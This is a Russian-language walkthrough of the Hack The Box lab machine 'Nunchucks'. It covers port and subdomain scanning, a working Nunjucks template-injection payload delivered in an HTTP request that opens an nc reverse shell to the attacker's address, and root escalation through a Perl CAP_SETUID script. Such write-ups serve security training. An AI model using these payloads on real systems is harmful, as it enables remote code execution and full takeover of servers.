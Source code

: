# 🟢 Nunchucks(Linux, Easy)

![](<../.gitbook/assets/1 (1) (1).png>)

### Содержание:

Nunchucks - легкая машина, название которой уже дает отсылку на шаблонизатор, а где шаблонизаторы - там SSTI. Просканировав порты, мы увидим ssh, http и https. Затем профаззим поддомены и найдем тот, который использует шаблонизатор Nunchucks. Загуглив для него вулны, найдем SSTI-эксплоит и получим реверс шелл. Затеем повысим наши привилегии в системе с помощью CAP\_SETUID perl'а.

### Сканируем порты с помощью nmap:

```bash
$ nmap -sC -sV 10.10.11.122 -oN nmap
```

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorse/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
```

![](../.gitbook/assets/2.png)

Как бы я не пытался зарегистрироваться/залогиниться - не получалось. Фаззим поддомены:

```
$ gobuster vhost -u nunchucks.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 40
```

```
Found: store.nunchucks.htb
```

Нашли поддомен, вставляем его в наш конфиг:

```
$ sudo vim /etc/hosts
```

```
10.10.11.122 store.nunchucks.htb nunchucks.htb
```

### Эксплуатируем SSTI в Nunchucks:

![](<../.gitbook/assets/3 (1).png>)

![](<../.gitbook/assets/4 (1) (1) (1).png>)

На поддомене есть `SSTI(Server Side Template Injection)` уязвимость. Дальше `{% raw %}{{7*7}}{% endraw %}` продвинуться не удавалось, но имя машины дает некоторый хинт. `Nunjucks` - это шаблонизатор для `Jinja2`, используемый для разработки веб-приложений на веб-фреймворках `Node.js`, таких как `Express` или `Connect`. Найдя [пэйлоад](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine), пытаемся его эксплуатировать:

```django
{% raw %}{{range.constructor("return global.process.mainModule.require('fs')")()}}{% endraw %}
```

![](<../.gitbook/assets/5 (1) (1).png>)

Чтобы эксплуатировать `RCE`, нужно поставить nc и запустить пэйлоад:

```
$ nc -nlvp 9999
```

Запрос с пэйлоадом в email:

```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=2RciWC895_oUpc9MqIt9QIx1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 189
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close
{
    "email":"{% raw %}{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.36 9999 >/tmp/f')\")()}}{% endraw %}"
}
```

![](<../.gitbook/assets/6 (1).png>)

### Повышаем привилегии с помощью CAP\_SETUID + Perl

Для того, чтобы просканировать систему на уязвимости и мисконфиги, нужно:

* Скачать linpeas к себе:

```
$ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

* Поднять python-сервер:

```
$ python3 -m http.server
```

Кстати, чтобы узнать свой локальный IP-адрес в VPN можно воспользоваться утилитой ip(ваш IP должен соответствовать интерфейсу tun0):

```
$ ip r | grep tun0
```

```
10.10.16.0/23 dev tun0 proto kernel scope link src 10.10.16.36
```

* На машину, которую нужно проверить, скачиваем linpeas с нашего веб-сервера и запускаем:

```
$ wget 10.10.16.36:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

![](../.gitbook/assets/7.png)

Linpeas запустился и очень много строк про конфиги машины, нам же нужна только эта строка:

![](../.gitbook/assets/8.png)

Тут и содержится уязвимость(CAP\_SETUID): setuid и setgid являются флагами прав доступа в Unix, которые разрешают пользователям запускать исполняемые файлы с правами владельца или группы исполняемого файла. То есть можно без привилегий поменять себе идентификатор(uid) и стать рутом(у рута uid=0). Но это все можно сделать в одну команду и одной строкой, так как тут есть защита AppArmor. Поэтому нужно создать отдельный файл и записать в него вредоносный код:

```
$ touch exploit.pl
$ echo "#!/usr/bin/perl" >> exploit.pl
$ echo "use POSIX qw(setuid);" >> exploit.pl
$ echo "POSIX::setuid(0);" >> exploit.pl
$ echo 'exec "/bin/sh";' >> exploit.pl
$ chmod +x exploit.pl
```

![](<../.gitbook/assets/9 (1).png>)
